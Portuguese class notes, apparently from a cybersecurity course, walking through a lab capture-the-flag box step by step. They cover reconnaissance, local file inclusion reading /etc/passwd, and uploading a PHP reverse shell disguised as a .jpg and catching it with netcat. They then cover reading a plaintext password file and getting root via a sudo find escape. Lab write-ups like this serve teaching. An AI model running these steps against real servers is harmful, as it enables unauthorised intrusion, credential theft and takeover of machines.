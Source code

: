 # cyber_sos

cp3
burble
hydra
chaves privadas e publicas
netcat?
printf?

nmap -sV 192.168.56.102 (servidor do owasp)
# lista vulnerabilidades do servidor, usar lista do thiago para testar as vulnerabilidaderqwiorj
https://tiagoalcan.notion.site/Cybersecurity-FOR-DEV-197d7765e27380d98603e484416d4a49?source=copy_link

se ter =, permite parametro a url... o exemplo da aula foi um tal de lang=, ai o professor tuchou language=/../../etc/passwd

RFI/LFI ataque de colocar arquivo dentro da host serve pra entrar na host e abrir portas etc
Colocamos um arquivo no parametro da requisição
o comando gobuster olha tudo que tem de importante no servidor

cd /usr/share/wordlists/dirb                           —acessar essa pasta
gobuster dir -u 192.168.56.102/assets/ -w big.txt

listando arquivos dentro da host:

Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 218]
/.htaccess            (Status: 403) [Size: 218]
/.svn                 (Status: 403) [Size: 213]
/1                    (Status: 200) [Size: 72580]
/2                    (Status: 200) [Size: 91665]
/4                    (Status: 200) [Size: 24700]
/3                    (Status: 200) [Size: 117977]
/alpha                (Status: 200) [Size: 3271]
/application          (Status: 200) [Size: 50419]
/clear                (Status: 200) [Size: 509]
/company              (Status: 200) [Size: 1191]
/email                (Status: 200) [Size: 1511]
/fonts                (Status: 301) [Size: 243] [--> http://192.168.56.102/assets/fonts/]                                                                 
/key                  (Status: 200) [Size: 1259]
/loading              (Status: 200) [Size: 1849]
/logo                 (Status: 200) [Size: 3028]
/profile              (Status: 200) [Size: 5015]
/sorting              (Status: 200) [Size: 1121]
Progress: 20469 / 20469 (100.00%)

link do acesso:
http://192.168.56.102/bWAPP/rlfi.php?language=/../../etc/passwd

192.168.56.102/language.php?lang=../../../etc/passwd (CORRETA DA PROVA)

rlfi.php é o arquivo dentro do owasp para testarmos a invasão... ai sempre usamos o language e testamos o passwd


### =====
# GS:
1. netdiscover -i eth0 -P -r (ip do cliente, kali aqui)
2. 192.168.56.102/language.php?lang=../../../etc/passwd (CORRETA DA PROVA, a gente achou um link com ?blabla=, ai muda o valor depois do blabla)
3. acima retorna o arquivo de senhas do servidor, significa que da pra fazer LFI
4. nmap -p- -sV 192.168.56.102 (servidor) (listar as portas)

# webshells, acessar o php, mas tem outros
1. cd /usr/share/webshells/ (sao listas de backdoors (virus) que o kali deixa disponivel, backdoor significa entrar sem login)
2. cd php
3. nano php-reverse-shell.php
## (transformando esse arquivo numa imagem, para fazer o upload do lfi)
1. cp php-reverse-shell.php revshell.php.jpg
2. nano revshell.php.jpg
3. o arquivo fica em "other location" na ui de folder
4. dentro do arquivo, mudar a linha escrito "ip" (para o ip do cliente kali), o port o professor deixou 1234 quieto
5. gobuster dir -u 192.168.56.102 -w /usr/share/wordlists/dirb/big.txt (ip do servidor) (gobuster mapeia a porra toda de pastas) (o retorno dele é varias pastas, o professor entrou numa de uploads, devemos procurar o arquivo que a gente fez o upload)
6. nc -nlvp 1234  (abrir uma porta no kali (cliente) pra esperar o servidor responder)

(sõ é possivel fazer o backdoor atraves da falha, que é pegar o paramentro que mudamos para /etc/passwd/ bla bla e mudamos para ./../../var/www/html/uploads/revshell.php.jpg, que nosso arquivo)
url final: http://192.168.56.102/language.php?lang=../../../var/www/html/uploads/revshell.php.jpg
simplificada: http://192.168.56.102/language.php?lang=/uploads/revshell.php.jpg

(depois de abrir a url acima que é o arquivo que fizemos o upload, nosso terminal com nc -nvlp 1234 vai entrar no servidor, ai fazemos o comando abaixo)
7. python3 -c "import pty;pty.spawn('/bin/bash')" (se nao vai dar erro que nao é um terminal)
8. www-data@bassam-aziz (estamos no usuario www-data, usando a maquina bassam-aziz)

9. cd /home
10. ls (para ver o nome dos usuarios)
11. cd bassam
12. ls (entrega a flag de usuario dentro do bassam, user.txt)
13. cat user.txt (nao vai ter permissao)
14. cd /var/www/html (pasta do apache servidor web)
15. ls (acha a pasta uploads)
16. cd uploads
17. ls (ver o jpg)
18. cd ../ (volta pro apache)
19. ls (descobre um supersecret-for-aziz) (nome do pc)
20. cd supersecret-for-aziz
21. ls (bassam-pass.txt) (nome do pc)
22. cat bassam-pass.txt (mostra a senha, copia usando o mouse)
23. su bassam (nome do usuario)
24. cola a senha com botao direito e entra no usuario bassam

# (dentro do usuario)
26. cd /home/bassam (home do bassam)
27. ls (cacar o user.txt)
28. cat user.txt (primeira flag, agora com permissao no bassam)
29. sudo -l (pra tentar entrar como sudo, ou seja, administrador)
30. cola a senha que pegou do cat bassam-pass.txt (da erro)
31. site maluco, professor pegou esse comando
  32. sudo find . -exec /bin/sh \; -quit
33. whoami (checar se somos root mesmo)
34. cd /root
35. ls (mostra a flag, arquivo flag.txt)
37. cat flag.txt
(mostra a flag final)
